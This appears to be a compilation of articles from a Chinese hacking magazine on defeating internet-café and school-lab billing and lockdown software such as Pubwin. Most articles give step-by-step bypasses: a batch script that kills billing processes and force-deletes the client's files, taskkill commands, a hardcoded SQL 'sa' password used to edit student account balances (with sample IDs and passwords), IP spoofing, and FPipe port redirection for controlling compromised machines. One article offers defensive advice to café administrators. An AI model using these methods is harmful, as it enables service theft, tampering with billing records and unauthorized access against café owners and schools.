只要在 IP 地址处填入 IP，点左上角的 Remote control 就可以了。好了，今天的任务真的完成了。好欢，下面是你自由发挥的时间了。（本章中涉及到的程序 Adump、Dtools、远程控制任我行、网络剪刀、recton、Omniquad Instant Remote Control 已经收录在光盘中）

### 我就是要下载！

#### ——记一次完全突破下载权限历程

yizhigu

动 main，至少在这个时间段，我成功下载了 flashget。下载完 flashget 后，不用我说吧，安装好后要下什么东西那还不随便你了？至少我是下载了一个 QQ2005，我是不能容忍一个连网络硬盘都没有的 QQ 的。接触网吧破解这么久，第一次看到这样的保护性软件，可软件作者疏忽了时间差……

今天陪女朋友来我们这里最大的网吧上网冲浪，网吧刚刚装修升级过，环境是比以前更加舒适了，可是上网却不那么自由了。这不，女朋友马上在旁边叫起来：“老公，我要下载！”……记得以前这个网吧是 Win98 系统，直接到 windows\system 目录下修改 inetcpl.cpn 为 inetcpl.cpl，就可以打开 internet 选项了，启用下载就可以了。可是现在网吧系统升级为 Win2000，点击下载的链接，窗口很快就消失了……

打开 IE 后点右下的地球图标，在自定义级别里可以看到“下载”是处于启用状态，所以靠修改注册表的方法没有任何效果。于是很自然地想到 QQ 网络硬盘，登录后却发现该控件也被删除了。好不容易等到好友上线发来 flashget 安装文件，居然从 QQ 传不了手……

该控件也被删除（现在网管素质真的有很大提高啊！），我一时陷入绝境。这 BT 的网管？哎，最不能容忍的是，平时自称在网吧无敌的我，在女朋友面前丢了脸。对了，在线下载系统！可哪有那么简单啊，网管将 ActiveX 也给禁止了。正当我准备放弃的时候，我突然看到右下角任务栏里的鹏彦网吧管理系统。会不会是这个保护机制来限制下载呢？如图 1。


打开任务管理器，研究后发现该进程名是 main.exe。结束进程后它立刻又重启，时间差约一秒左右。看来要利用这个时间差来达到破解下载的目的。把任务管理器放到下载地址旁，先点击下载链接，再立即结束 main 进程，下载窗口果然不再消失（如图 2、图 3）。这时可以认为成功了，下载 flashget 时注意先保存目标后再结束进程，否则会被 main 再次 kill 掉。


时间差可以战胜他的管理机制，而我的这个思路得益于以前看到的《爱古法破 pubwin》。我们不光要有清醒的头脑，有时候眼疾手快也是很重要的，多看书就会积累更多经验。希望这次破解历程对大家有所帮助，有不懂的可以去 x 论坛联系 yizhigu。

### 网吧竞技宝典

任我小行［第八军团］

网络江湖风起云涌，江湖代代人才出。传闻，当年江湖人士借助各种手段，致使网机漫天飞，网吧免费上网，着实令菜鸟们口水流了一地。大叹：生不逢时，技不如人，未遇名师，做事太难。菜菜帮菜鸟堂堂主小行（本堂最菜的当选为堂主）行走江湖，寻找各个门派的免费上网密招，幸得七种武器，不敢独享，拿来与菜鸟们共享，同时希望老鸟们给予指正。纵观各个网吧门派，为了限制其他门派纷纷使用各派的镇派之宝，如航母级的 PUBWIN、神兵利器万象网管、宝物美萍网管大师等等，本文针对那些网管软件给予破解方法。

### 长生剑——键盘的 SLEEP 键和 WAKE UP 键

测试环境：WinXP SP2。当你在网吧上网的时候，时间一到机器就会被锁定，这个时候你可以按 SLEEP 键（不要说你不知道是哪个键啊），然后你会发现显示器会逐渐转为待机状态，这时再按 WAKE UP 键，仔细地盯着显示器，会看到屏幕慢慢清晰，计费系统就会消失掉了，锁定被解除。接下来不用我明说了吧，只要不被网管发现，想上多久就上多久。

点评：键盘通过按键设置直接调用系统的待机或休眠命令，绕开计费系统本身。由于待机命令和计费系统有冲突，一旦进入了待机状态，计费系统也自然就失效了。

### 2. 霸王枪——U 盘

测试环境：Win98 系统。U 盘现在很便利了，插入 U 盘时系统提示安装驱动，选择手动安装方式，通过查找驱动位置浏览窗口调用 `EXPLORER.EXE` 进程，桌面就可以出来，计费系统形同虚设。

点评：Win98 没有内置的 USB 设备驱动程序，因此才可以轻松地破解。

#### 3. 屠龙刀——三键客

CTRL+ALT+DEL 组合键。测试环境：WinXP SP2。计费系统在系统启动后加载，自动担任起向上网者收费的重任，所以在计费系统加载前，调用任务管理器并结束对应进程即可。

不过大部分网管软件会把任务管理器功能关闭，你可以在百度里搜“任务管理器解禁”。文中提到使用工具（如 V4）恢复限制后，再打开“系统工具”里的“程序管理器”，程序管理器就会“听话”。


#### 4. 拳头——干掉进程

`BE.EXE`（NORTON UTILITIES 8.02 中一个文件）可以产生一个系统延时。表演测试：将计费系统相关进程杀掉是最常用也最有效的手段，无论本地还是远程都十分必要。

找出计费系统相关进程，用合法账户登录计费系统后，在 DOS 窗口输入 `TASKLIST` 查看当前进程。文中举例：`PUBWIN.EXE` 为计费进程，`RUNDL/RUND1L.EXE` 为监视进程，`RECLOCK.EXE` 为界面锁定和权限限制进程。

在计费系统中，一旦客户登录，服务端会将账号转为计费状态。若客户端重启或终止计费进程，只要找不到机器命令，服务端会继续计费。因此要写批处理文件在后台运行，伺机终止关键进程。

```bat
BE delay 300
ntsd -c q -p PID1   // 杀计费进程 PUBWIN.EXE
ntsd -c q -p PID2   // 杀监视进程 RECLOCK.EXE
ntsd -c q -p PID3   // 杀相关限制进程
cd C:\PROGRAM FILES\HINTSOFT\PUBCLT
DEL /f /s /q *.*
del C:\WINDOWS\system32\RUND1L.exe
```

保存该文件并命名 `C.bat`，运行后注销并等待约 30 秒，计费系统关键进程会被终止，虽然任务栏显示可能异常，但不影响使用。

#### 5. 离别钩——专杀工具

专杀工具的发展遵循“一物降一物”的规律，可以解除各种限制，甚至终止计费系统。文中提到 `PUBWIN4 幽灵`、美萍安全卫士破解器、万象网管专家破解器等。

这里介绍工具——Pubwin4 幽灵。对付触控级别的 PUBWIN 十分简便，点击“清除计费软件”即可。文中也提到该行为存在法律风险并会触发提示。


#### 6. 多情环——输入法漏洞

把输入法选中为智能 ABC 状态，这个时候在网吧管理软件登录窗口，找个可以输入文字的地方，把光标移向那个地方，首先输入 v，再向上按下左箭头（移动任何一个方向键都可以），再按删除键、回车、后退键（有时要按一次后退键），然后会造成当前窗口进程死掉。关掉，重新来，不行再说了……

#### 7. 孔雀翎——美萍自带序列号漏洞

在 X 档案 7 月的“破解美萍新招”里介绍过，这里就不详细说了。几款利器的介绍，相信菜鸟们在网络的江湖中定会有所收获……最后提醒下：上网要悠着点，时间久了很容易被网管怀疑。

> （本章节中涉及到的程序 BE.EXE、网吧辅助工具 V4、Pubwin4 幽灵已经收录在本期光盘中）

### 论学校机房收费系统

现在许多学校里都有自己的机房收费系统，同样我们学校也有自己的一套收费系统……如果有数据库的用户名和密码，那么不就可以直接进入服务器加钱了吗？

```text
... adminsql ... user ... sql ...
（程序字符串中可见账号密码片段）
```

我们怎么才能知道 SQL 服务器的用户名和密码呢？先找到连接 SQL 服务器的客户端……可以看到主机名 SQL，用户名 sa，密码 adminsql。


既然是用 SQLServer 做的服务器，那么就可以用 SQLServer2000 去连接数据库……点击“下一步”，然后填入用户名和密码，如图 2。


再点“下一步”，注册成功！双击连接 SQL 服务器，连接成功，如图 3。然后就是找收费记录的数据表了……

终于在一个不起眼的地方让我给找到了啊，如图 4。打开数据表，看到好多用户啊，并且还可以直接在上面更改数据……不过还是不要加太多，否则很容易被注意。

| 账号 | 密码 | 账户余额 | 用户消费额 | 性别 |
|---|---|---:|---:|---|
| 200421831 | 88888888 | -1.18 | 22.69 | 学生 |
| 20030005 | 88888888 | -1.29 | 19.02 | 学生 |
| 20030006 | 88888888 | 1.32 | 29.88 | 学生 |
| 20030007 | 88888888 | 1.51 | 60.35 | 学生 |
| ... | ... | ... | ... | ... |

好了，文章就写到这吧。注意该文只适用于数据库使用 SQLServer 的主机，如有不妥的地方，望高手指出。

## 网吧黑客

### 剑走偏锋

## ——再BT的系统也搞定

Hacksky

看了这么多的黑客 X 档案，今天我也忍不住把自己破解我们这儿网吧管理软件的过程写下来与各位菜鸟朋友共享。先说说我们这儿的网吧使用的管理软件，是一个全省统一搞的网管软件……我曾试过了 X 档案里教的所有方法，但无一能够解决问题。

最后虽然是看到了桌面，可中文菜单大师不依不饶，非要叫我输入密码才肯通行。难道一点办法也没有了？经过研究，终于找到了它的弱点，这套软件设计了一个在线升级的程序。


打开就会看到图 2 所示的窗口。仔细看了看里面的文件，好像都没有什么大的用处。咦？那是什么，如图 3。


居然还有 FPE2001，哈哈，这是一款修改游戏的软件，而且里面还能对文件进行修改，不过是 16 进制。双击 FPE2001，根据提示下载，点击运行，再选择“选择”，居然能看到系统文件，再选择编辑，如图 4。


哈哈，还能编辑（这里需要注意的是：如果我们编辑了文件，不需要保存软件就会直接修改）。我试着解决网吧限制问题，想到通过“档案管理”打开文件，进入系统盘相关目录。


管理员档案管理……然后把鼠标移到文件夹打开的位置，按提示操作，在要求输入密码时系统窗口不会关闭，利用这个漏洞可以进入系统盘并查看重要内容。我试了 CMD、MSCONFIG 等，部分可用。

不过令我感到气愤的是联系管理员准备告诉他们这个虽小但致命的 BUG 时，他们居然不信。网络安全中最危险的因素往往不是电脑或程序，而是人。

我在进入系统盘之后遇到了一个问题：会发现“记事本”被替换成只读的演示版，难以直接修改文本。希望知道的朋友能告诉解决办法。


后来我另外找到了一个程序（如图 6），它没有受到限制，能运行 vbs、bat、js、htm 等文件。大家有时间可以试试，然后把结果拿出来分享。与其照搬以前 X 里教的方法，不如用自己的电脑环境做针对性尝试。

## 网吧黑客

### 网吧破解又有新招——巧用QQ网络硬盘5秒钟破解网吧

hety

为了安全起见，通常网吧管理员都会隐藏用户机器上的 command、MS-DOS。前几年网上也有许多关于破解此种限制的方法，但不少方法步骤繁琐。作者介绍了一种利用 QQ 网络硬盘快速恢复并启动 command 的办法。

实测中将 command 拖进 QQ 网络硬盘后可快速下载并运行，说明限制并非绝对。文章指出 command 文件体积很小，存放与传输都很快。

为进一步验证，作者在限制更严格的网吧中登录 QQ，通过网络硬盘中的 command 仍可打开命令行，并提到该文件占用空间很小，MS-DOS 也能轻松“拖进”QQ硬盘，在其他受限网吧同样可用。

如果想打开注册表或查看网络连接情况，可在 command 中输入相应命令。作者提出更简便方法：借助写字板“插入对象-包-编辑命令行”，预先放入 regedit、msconfig、netstat 等命令，集中在一个批处理/文档中管理。

这样可通过双击图标直接运行程序，避免每次重复输入命令。随后把文档另存为 .doc（文中示例为 hety.doc），并上传到 QQ 网络硬盘“我的文档”，因文件很小上传很快。

在网吧中只需双击保存于 QQ 网络硬盘里的 hety.doc，再双击其中对象图标即可快速打开 regedit、msconfig 等工具，整个过程可在数秒内完成。

文末说明：部分高安全级别网吧会禁用 command.com，尤其 NT 系统（Windows 2000/XP/2003）。可在注册表中定位到相关策略键值，将 DisableCMD 调整或删除以恢复。

对于 Windows 9x，路径为 HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\CurrentVersion\Policies，修改 WinOldApp 子键下 Disabled 值或删除该项即可。

### 机房管理系统软件——只不过是纸老虎！

风碧玉箫

说起来我特别幸运——考入了国家示范性软件学院，学院里有很多机房供我们使用。但是，由于刚开始学院对机房的管理没跟上和机房管理制度的不完善，许多电脑都被学生设了密码，导致大量电脑无法正常使用。最后，学校“逼不得已”花了一万块钱引进了一套机房管理系统软件，只有软件学院的学生才能刷卡进入使用。并且为了防止学生乱设密码等系统操作，又在每一台电脑上安装了还原精灵，并统一设上 BIOS 密码，以防止某些同学利用光盘引导启动重装系统。

由于这套管理系统软件要求学生必须刷卡进入，才可以有效防止非我院学生进入使用，同时该系统还可以记录每次登录同学的卡号，因此，如果某台电脑出现了问题，直接找最后一次登录的同学就可以找到事故责任人。可以说，这套管理系统还是做得比较好的（至少学校领导、机房管理员以及大部分同学是这么认为的）。

不过，世上没有绝对的安全，电脑安全尤其如此。经过我几天的研究，终于发现了这个管理系统软件的漏洞，从而找到了破解该软件的几种方法，并且还可以逃过管理日志的记录。

下面就先讲一下我的思路：首先，因为电脑在启动进入系统的时候这个管理系统软件的客户端会自动加载（如图1），所以我们可以考虑它是否在服务或注册表的启动项里动了手脚。通过安装瑞星防火墙查看可疑进程，确实让我找到了两个可疑分子：remoteAutoload.exe 和 remotecfg.exe（如图2）。

从名字上看，这两个进程应该就是登录界面的有关进程。而且我还发现：用任务管理器根本无法终止这两个进程。原因是一旦终止其中任何一个进程，马上就会跳出登录界面要求重新登录，任务管理器中也会重新出现该进程，并且这两个进程的运行权限是 SYSTEM（如图3）。

经过分析，我们可以得出如下结论：remoteAutoload.exe 和 remotecfg.exe 这两个进程是相互关联的，并且是以服务方式启动的。经过查找，我在系统服务列表里找到了一个“remote network config”服务，证实了我的分析是正确的（如图4）。

大家可以看出这个服务确实不同于 Windows 自带的系统服务——既没有区分大小写，也没有描述。既然这个管理系统软件是以服务的方式启动的，因此我们可以想出它的破解方法：那就是停止这个服务。因为电脑上还安装有还原精灵，要让改动的设置生效，必须要先破解还原精灵。

关于破解还原精灵的工具软件，网上有很多，如逆风飞扬的还原精灵卸载程序、还原精灵转储大师、还原幽灵等，我就不多做介绍了。我使用的是还原幽灵。我先在服务里把“remote network config”服务设为禁用，再用还原幽灵保存设置，重启后发现：所做的设置根本没有生效，依旧要登录，不知道是怎么回事，并且用我的学生卡也无法正常登录。

可是，我前面的分析根本没有问题呀？问题就卡在了这里。无奈之际，我想起在“运行”中有个 msconfig，于是换了一台电脑，在“运行”里输入 msconfig，在“服务”选项卡里找到“remote network config”，将其左边的对号取消（如图5），然后点“应用”，用还原幽灵保存设置，重新启动居然成功进入了！

这次竟然没有出现登录界面——郁闷！都是对服务进行的改动，为什么直接在 services.msc 里面就不可以呢？不过到此，我已经算是破解了机房管理系统软件。

本来只想写到这里。由于我是刷卡进入电脑后破解的，如果机房管理员发现有什么不对，有可能会查到我，因而便有了下文。经过研究，我发现了几种更好的破解方法，根本不用刷卡，也不用破解还原精灵，直接利用管理系统软件的漏洞就可以进入电脑。方法如下：

#### 方法一

办法是让服务在进入系统时不启动。我们可以在开机时按“F8”，进入开机菜单选择安全模式。为了能够使用网络，可以选择“带网络的安全模式”。因为在安全模式下，系统只会加载最基本的驱动和最基本的系统服务，这些第三方软件安装的服务不会启动，这样就可以跳过启动时的登录界面，从而进入系统。

#### 方法二

前面我也分析过了——登录界面的两个相关进程是 remoteAutoload.exe 和 remotecfg.exe。无论终止哪个进程，都会跳出登录界面要求重新登录，并且被终止的进程会重生。我们只要终止进程树即可。按“Win+R”运行 gpedit.msc，在组策略中将“删除任务管理器”属性改为“已禁用”或“未配置”。

按“Ctrl+Alt+Del”调出任务管理器（以上操作要用键盘）。因为登录界面的限制，鼠标只能在特定区域内移动，最好用键盘上下移动焦点，选中 remoteAutoload.exe 或 remotecfg.exe，打开右键菜单后按“T”结束进程树（如图6），登录窗口消失后再结束 explorer.exe 并重建进程，即可进入系统。

这个方法同第一个方法相比，也是既不用破解还原精灵，也不用刷卡进入，同时也没有了前面说的声音、装软件等限制。唯一的缺憾就是在调出任务管理器和结束进程树时一直要用键盘操作，并且由于登录界面有时间限制，100 秒后会自动重启，因此动作要快。

#### 方法三

这个方法是建立在方法二基础之上的。由于调出任务管理器很费时间，我们可以用微软提供的任务管理相关命令操作。在启动进入登录界面时按“Win+R”运行 cmd.exe，用“Alt+Tab”切换到命令行窗口，输入命令后即可进入系统，并可做成批处理在开机时直接运行。

```bash
taskkill /t /f /im remoteAutoload.exe
taskkill /f /im explorer.exe
start explorer.exe
```

至此，机房管理系统软件就这样被我给绕过去了。最后，我要提醒广大的机房管理员们，不要过分相信这些管理软件，应该提高安全意识。

### 网神管理员密码之玄机

嗨！大家好。战神 MARS 又和大家见面了。今天我给大家带来的是关于 PUBWIN 管理员密码的文章。先更正《X档案》第7期“净网先锋”一文中的路径错误：应为 c:\winnt\system32\mainpro.exe。

话说那是一个月前，通过一定手段，我搞到了一家网吧的管理员密码。结果登录后发现不能上网，QQ 提示登录失败，打开网页也显示“找不到该页”。用管理员密码竟然会掉线（未连网状态），实在不公啊！

偷偷瞄了网管几眼，发现其中一个网管正在玩网络游戏，最近本地兴起一款新游戏，这家伙正玩得起劲呢！经过了许多时间的探索，略去探索步骤，偶特放果献给大家……

执行“开始｜设置｜网络连接”，打开“网络连接”对话框。右击本地连接，若状态为禁用则改为启用。登录 QQ、浏览网页、玩网络游戏，一切 OK。

当你用管理员密码登录 PUBWIN 时，会出现“PUBWIN 系统设置”对话框。一般会直接点“确定”进入桌面，而此时由于 PUBWIN 限制机子会掉线。返回上一步可看到“系统限制”选项。

后有一项“PUBWIN 启动时自动运行”，将其前面的勾去掉再确定即可。再讲“PUBWIN 系统设置”的问题：有了管理员密码后，大部分限制都可取消。

它的安全策略分为几大类：

- 界面限制选项
- 浏览器限制选项
- 其他限制选项

由于各选项太多，这里不一一列举。

有了它，在网吧里上网就可以按自己的需要设置限制了。上面讲的是针对 Win2000 系统的方法。WinXP 下可通过“网络连接”快速恢复；若桌面没有“我的电脑”“网上邻居”，可从“回收站”中的“其他位置”进入。

还可在窗口左边“网络任务”添加“网上邻居”，查看“网络连接”，设置家庭或小型办公网络，点击“查看网络连接”即可打开网络连接对话框。

好了，今天的问题就到这里吧！再见。有什么疑问去论坛找我，论坛 ID：zhanshien。

### 咖啡管理系统

### Pubwin4 漏洞脱逃秘籍

Pubwin4 因为其功能强大和易用而备受广大网吧业主的青睐，但随着网络上各种突破（破解）方法和工具的出现，网吧管理问题日益严峻。虽然通过不定期升级补丁可以避免一些漏洞的发生，但对于一些极端的“破坏”或变相“绕”过服务端的方法，Pubwin4 依然显得脆弱无力，下面我们就探讨一下它的安全防范。

#### 一、防范误区之头痛医头

前段时间在 Pubwin4 的官方论坛、网管吧，关于如何防止顾客通过下载 Pubwin 精灵对客户端的破坏，管理者贸然“禁止下载”。我不否认通过一些极端设置可以达到完全禁止下载。

- 管理员密码和还原精灵的密码相同，我就可以管理员状态登录，然后退出 Pubwin4 系统；
- 可以完全删除或卸载 Pubwin4，并让还原精灵转储，使网吧出现一台免费机；
- 通过还原精灵的转储，安装木马等恶意程序。

#### 二、各种漏洞的方法

记得以前经常看的一些黑客网站直到今年还在发布去年就出现的突破 Pubwin4 方法，有些简直就是炒冷饭，无非是新瓶装老酒。现今网络上突破 Pubwin4 比较流行的方法有很多，大致可以分为两大类：

#### 1. 破坏 Pubwin4 客户端型

代表方法：修改注册表使 Pubwin4 无法正常启动；使用批处理文件删除 Pubwin4；安全模式或 DOS 下删除 Pubwin4；利用启动项直接卸载 Pubwin；利用 Pubwin 精灵或相关工具直接破解等。

有一次在 Pubwin4 各方面设置都很完善的网吧，我发现他们所使用的还原软件竟然是还原精灵，密码的使用策略又成了问题。

防范方法：通过对比 Pubwin4 上线人数和实际网络占用人数来排查被破解的机器。现今一些网吧管理员都将系统设置为非正常登录 Pubwin 就无法连接网络，可以快速查找到被破解主机的位置。对于智能 ABC 漏洞，打上补丁即可。

#### 2. （非破坏）Pubwin4 正常工作型

代表方法：正常登录，断网，换机结账；正常登录，设置防火墙，拦截关机信号，换机结账；使用 WinHex 读取内存中的管理员密码，或者使用 Pubwin 破解 2005 读取系统设置中的型号密码；通过修改 TCP/IP 属性伪造全程 IP“绕”过服务端。此时，Pubwin 客户端要么脱网，要么还是正常运行，但与服务端失去了联系（尤其是使用 Pubwin“绕”这种方法），此时 Pubwin 巡警也无能力。

防范方法：对于断网法，可以采用随机排查，重点查看非上网主机是否在服务端列表中（方法较笨但很实用）；对于防火墙法，可以使用局域网助手对比；对于读取管理员密码，Pubwin4.3.0.1 虽然通过补丁解决了内存中出现密码的问题，但由于 Pubwin 系统设置中管理员密码为明文这一 Bug，暂时 Pubwin 破解精灵 2005 仍可利用，只有等待新的补丁，或者采用 MD5 或 MARS 等高强度加密算法。暂时可以使用局域网助手对比来解决。

我们重点说一下“绕”法。此法是我在去年年末发现的：由于 Pubwin4 客户端与服务端连接途径不畅，造成在修改 IP 地址后 Pubwin4“假脱机”，尤其在不同子网情况下更严重。由于此法为盗用 IP，在大型网吧无法准确定位被破解主机的物理位置，因此以上防范方法都不太管用。

对于这种情况，我们可以通过子网掩码的设置来避免空余 IP 地址被盗用。如本网吧联网总主机数为 126 台，那么子网掩码设为 255.255.255.128 即可（如图5、图6）；若某台主机的 IP 被盗用，也可以通过 MAC 扫描器（如图7）来监视网络中是谁改动了 IP 地址。子网掩码的设置可以使用 NetTool 来计算（如图8）。

#### 三、后记

以上防范方法要做到绝对防止 Pubwin4 被突破（破解）是不可能的，但是 Pubwin4 被突破（破解）的难度大大增加了。

在本文续写结束之际，网管上又开始流行利用服务端主机开放 IPC$ 服务来给自己充值，并且有了 Pubwin4 充值专用工具。官方解决方案是关闭 IPC$（如图9），但是如果服务端系统补丁没打完，或开了如电影端口或 3389 端口，又可以通过远程溢出、脚本注入或工具漏洞获取系统权限。我本人就曾遇到过这样的小网吧。

可见 Pubwin4 的漏洞防范任重而道远，广大网吧管理员又要辛苦了。最后希望“玩 Pubwin 的人”QQ群内的朋友不要恨我，嘿嘿，我们已经“玩”了很久了……

## 网吧黑客

### 搏战局域网

很多菜鸟或许和我当初刚开始接触网络时一样，对“公网”“内网”“公网 IP”“内网 IP”“动态 IP”“静态 IP”等局域网与互联网衔接相关术语弄得晕头转向。本文就给大家讲一些关于局域网的问题以及解决方法。

“公网”和“内网”相对。比如大家在网吧里上网或使用单位里的计算机，一般这些计算机处在内网，也就是局域网。处在内网的计算机 IP 一般是 `192.168.*.*` 和 `10.*.*.*` 范围内。查看本机 IP 可在命令提示符输入 `ipconfig`，也可用 `ipconfig /all` 查看网关等信息。你在命令行看到的常是“内网 IP”，而网站显示的则是“公网 IP”。

我们常说的“动态 IP”“静态 IP”通常是公网 IP 层面的说法。IPv4 由四段数字组成（每段 0—255）。由于公网地址资源有限，许多用户并不需要长期在线，ISP 常通过代理与网关让多个内网用户共享一个公网 IP。

通常拨号上网后会得到一个公网 IP，这个 IP 常是动态分配的。进一步地，文中介绍了 NAT（网络地址转换）：把一个地址域映射到另一个地址域，使内网主机可经网关访问互联网。NAT 常见形式包括静态转换、动态转换、端口映射等。使用 NAT 后，外网主机先与网关通信，再由网关转发到内网主机。

前文提到，如果你在内网里，互联网上的主机通常不能直接识别你的内网地址，这会影响外部主机与内网主机的直接通信。因此在一些场景中需要获得公网 IP，或通过其他方式建立可达性。

- 入侵互联网上的计算机做成“肉鸡”。
- 采用端口映射。
- 不要在内网里上网（“呜啦”鸣啦）。

随后文章重点解释“端口”概念：端口是计算机与外部通信的逻辑接口（TCP/IP 端口），并非仅指硬件插口。端口号是整数，范围 `0` 到 `65535`。一台计算机可提供多种服务（如 IIS、FTP、SMTP），通常通过“IP + 端口号”区分不同服务。Web 服务常见端口为 80（可按需修改）。

## 网吧黑客

例如，FTP 开的端口一般就是 21，而有些程序就算是同一个程序，每次启动时所开的端口也会变化。一般这些程序所开的端口在 1024 以上，1024 以下的端口为系统注册端口。也就是说，系统一些文件运行时如果需要开端口，便会在 1—1024 端口号中找；如果非系统程序占用了系统文件需要的端口，那么将引起系统的不稳定或其他严重后果。

端口有两种：TCP 端口和 UDP 端口。由于 TCP 和 UDP 两个协议是独立的，因此各自的端口号也相互独立。比如 TCP 有 235 端口，UDP 也可以有 235 端口，两者并不冲突。

至于 TCP 和 UDP 的区别如下：TCP 即传输控制协议，提供的是面向连接、可靠的字节流服务。当客户和服务器彼此交换数据时，双方之间必须建立一个 TCP 连接，之后才能传输数据。TCP 丢弃重复数据，提供超时重发、检验数据、流量控制等功能，保证数据能从这一端传到另一端。UDP 即用户数据包协议，是一个简单的面向数据包的传输层协议。UDP 不提供可靠性，它只是把应用程序传给 IP 层的数据包发送出去，但并不能保证它们能到达目的地。由于 UDP 在传输数据报前不用在客户和服务器之间建立一个连接，且没有超时重发等机制，故而传输速度很快。

回到端口映射上来，端口映射功能可以让内部网络中某台机器被公网的计算机识别，当然这不是将真正的公网 IP 地址直接转到内网的计算机。端口映射功能是将一台主机的假 IP 地址映射成一个真 IP 地址，当用户访问提供映射端口主机的某个特定端口时，服务器将请求转到内网主机中提供这种特定服务的主机，这点和上面说的 NAT 原理差不多。

以此类推，利用端口映射功能可以将一台具有公网 IP 机器的多个端口映射成内部不同计算机上的不同端口。端口映射功能还可以完成一些特定代理功能，比如代理 POP、SMTP、TELNET 等协议。

- 1. IIS（80 端口）重定向
- 2. FTP（21 端口）重定向

进入 Internet 服务管理器，打开“Internet 信息服务”，选择 Web 站点，如：“默认 Web 站点”，查看属性。属性页面的“主目录”标签下，我们可以设置 WWW 服务器的主目录位置。设定主目录为“另一台计算机上的共享位置”，可以在“网络目录”栏目内，以“\\服务器\共享名称”格式填写局域网内部的 WWW 服务器上已经设为共享的主目录，例如：\\Server\dog。也可以选择“重定向到 URL”，然后在“重定向到”栏目输入局域网内部的 WWW 服务器的链接，例如：http://192.168.0.100。

打开 Internet 服务管理器，进入“Internet 信息服务”对话框，选择 FTP 站点名称，例如：“默认 FTP 站点”，查看其属性。在属性页面的“主目录”标签下，我们可以设置 FTP 服务器的主目录位置。

OK，现在我们动工具了，首先上场的是“tcpmapping”。这款工具我很喜欢，理由：简单实用！这里的操作全部是在局域网的服务器上，运行后界面如图 1。依次打开工具栏上“文件→添加映射”，如图 2。


“本地端口”：填写服务器上被映射的端口，也就是你想要外部计算机访问服务器的端口。  
“映射主机”：你所在局域网的计算机的 IP 或主机名，如：192.168.0.55。  
“映射端口”：192.168.0.55 接收由局域网服务器传来的外部信息的端口。


备注：随便写啦，写完后确定，映射启动。当有人连接该局域网服务器上你设置的端口时，如图 3。

再给大家介绍一个“端口映射器”，运行后可以显示映射组、连接监控、日志记录，来看看它端口映射设置，如图 4。这些大家自己都看得懂的，比起“tcpmapping”它又多了禁止外部特定 IP 访问、输入 IP 选择、连接数限制的功能，各位视情况而选择用哪个。


最后给大家介绍一个入侵时常常用到的端口映射工具“FPipe”。一般我们入侵计算机后都只会获得一个命令行下的 SHELL，当我们想进一步扩大成果，比如 RADMIN、3389 等 GUI 控制，但对方又有防火墙不能访问这些端口，就只有端口重定向了。

```bash
FPipe -l 55 -s 55 -r 21 192.168.0.1
```

解释一下：发送到本机 55 端口的数据，通过 55 端口重定向到 192.168.0.1 的 21 端口上。“-l”是指要监听的端口号，“-s”是指从哪个端口发出重定向后的数据包，“-r”是指定向到主机的端口号。这个东西不同于上面的工具，是主机的接收端口和重定向发出端口可以分开的，这样实行双线程。

> 通过上面的介绍，相信你不再对内网和外网一头雾水了吧。再配合一些木马工具及文中提到的工具，相信在各种环境下都能很好地控制你的肉鸡。

### 网吧里想怎么玩就怎么玩

横行网吧这么多年，什么世面我都见过了（哎呀！谁扔我鸡蛋啊？），其实我也是菜鸟一个，嘿嘿，好了，下面进入正题。先给大家一个思路，想玩什么就玩什么。在现在互联网发达的时代，我们首先想到的是什么？下载！第二呢？当然是运行下载的东西了（废话！地球人都知道！）。思考完了，开始讲课。

狂混网吧的都知道，许多网吧都禁止下载：一是怕我们搞坏他们的电脑，二是怕网速变慢（嘘~~小声点，别让他们听见）。好了，现在我们搞出下载利器——迅雷（外星人都知道）。为了能在网吧中使用，我们要把它处理一下，因为网吧是不可能让你安装的。我们先找一个不是网吧的地方安装迅雷（都会了吧？），然后进入迅雷的目录，把 Thunder.exe 改名成 super.exe，防止有的网吧禁止它运行，然后对目录的所有文件进行打包（也就是用 WINRAR 压缩）。需要注意的是，不是对整个文件夹打包，而是全选文件后打包，不然后面的步骤会出错的！


然后打开压缩后的文件包，别解压哦，那是无用功！接着点击解压界面右上角的“自解压格式”，如图 1，再点击“高级自解压选项”，选择“自定义解压路径”，输入 `C:\super\`，在底下的“解压后运行的文件”栏内填入 `C:\super\super.exe`（这一步十分关键），如图 2。最后点确定，生成自解压文件。好了，工具就这样制作成功了！


有人会问，为什么一定要填 C:\ 而不填 D:\、E:\、F:\ 呢？因为在网吧里，不可能没有 C 盘的！例如在无盘工作站里就是只有 C 盘而已，所以填 C 盘最保险。最后一步就是上传了，找一个你喜欢的地方，QQ 邮箱、QQ 硬盘、QQ 群共享等等。

嗯嗯，制作好了当然要用下，找个网吧试试！先看看不用工具下载是怎样的：打开 IE 浏览器，IE 浏览器没有控制栏，如图 3。到天空软件站随便找一个东西，就 QQ2005 beta2 珊瑚版吧！双击下载，弹出一个框“当前安全设置下禁止下载该文件”。再上 QQ 看看，没有 QQ 硬盘。点 QQ 邮箱，没反应，幸好还有 QQ 群共享没有被封（偷笑！），如图 5。


双击刚上传的迅雷，腾讯就开始为你下载了。下载完毕会跳出一个框，说运行文件有危险，问是否运行，当然是确定了。然后点安装，我们心爱的迅雷出来了，兴奋 ing！现在我们就下载一个试试，还是下载 QQ2005 beta2 珊瑚虫版，就下广东佛山的吧。右键“使用迅雷下载”，点，如图 6。


汗，这网管真抠门！嘿嘿，不用急，还有一个方法：拖放！方法是用左键点住“广东佛山”几个字不放，往迅雷的悬浮框一拖，可爱的下载框就出来了！点确定，迅雷大哥就开始下载了。网吧就是快，几十秒就下完了。那怎么使用下载的东西呢？迅雷大哥已经为我们想好了，点击左边工具框的“已下载”，双击刚下载的 QQ2005 beta2，开始安装吧！想下什么就下什么吧！


有人会问，如果遇到安装后不会自动运行的文件怎么办？网吧限制那么大，怎么才能看到本地硬盘的东西呢？回答是：别说，更简单了。既然能下载了，网上那么多工具，想用就用！下面我就简单地介绍一下，就用现在吹得很厉害的“远程控制任我行”！到网上下载下来后是个压缩包，用迅雷运行后，双击远程控制任我行的主文件，于是任我行就运行了，如图 8。本地硬盘的 C、D、E 盘清晰可见，还可以删除哦。


（本文中涉及到的程序迅雷改装自动运行版已经收录在光盘中）

## 网吧黑客

### 用 Look 'n' Stop 打造史上最完美的免费上网大法

always


图 3

#### 一、前言

